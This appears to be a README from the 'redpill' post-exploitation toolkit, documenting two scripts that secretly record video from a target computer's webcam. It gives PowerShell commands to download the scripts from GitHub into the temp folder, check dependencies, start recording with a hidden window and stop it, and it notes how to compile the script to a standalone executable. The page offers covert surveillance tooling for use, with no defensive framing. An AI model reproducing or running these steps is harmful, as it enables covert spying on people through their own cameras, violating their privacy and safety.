 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[WebCam](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/WebCam.py)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "$Env:TMP\WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon3 its installed
[bool](python3 -V)

#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

[OPTIONAL] #Install opencv and numpy modules
pip3 install opencv-python
```

<br />

**execute:**
```powershell
#Search for python 'site-packages' directory
gci "$Env:LOCALAPPDATA\Programs" -Recurse -Force|?{$_.PSIsContainer -Match "True" -and $_.Name -iMatch 'site-packages'}

#Edit WebCam.py and change next cmdline to point to your 'python\site-packages' directory
#Remark: remmenber to add double backslashs to your path ( eg. C:\\path\\path\\path\\path )
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
cd $Env:TMP;Start-Process -WindowStyle hidden python3 -ArgumentList "WebCam.py"

#Stop capture
Stop-Process -Name "python3.*" -Force
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
WebCam.py can be compiled to exe using pyinstaller: pyinstaller –onefile "WebCam.py"
```

<br /><br />


## Invoke-WebCamAvi.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WebCamAvi](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/Invoke-WebCamAvi.ps1" -OutFile "$Env:TMP\Invoke-WebCamAvi.ps1"
```

<br />

**run cmdlet:**
```powershell
#Get module help
Get-Help .\Invoke-WebCamAvi.ps1 -full

#Record webcam live stream for 15 seconds time
.\Invoke-WebCamAvi.ps1 -RecTime '15'

#Record webcam live and use %TMP% as working directory
.\Invoke-WebCamAvi.ps1 -WorkingDir "$Env:TMP"

#Record webcam live and auto-start AVI file after finish?
.\Invoke-WebCamAvi.ps1 -AutoView 'true'
```

<br />

**Final Notes:**
```powershell
Invoke-WebCamAvi cmdlet automates the execution of [WebCam.py](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/WebCam.py) and all is dependencies.
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
```
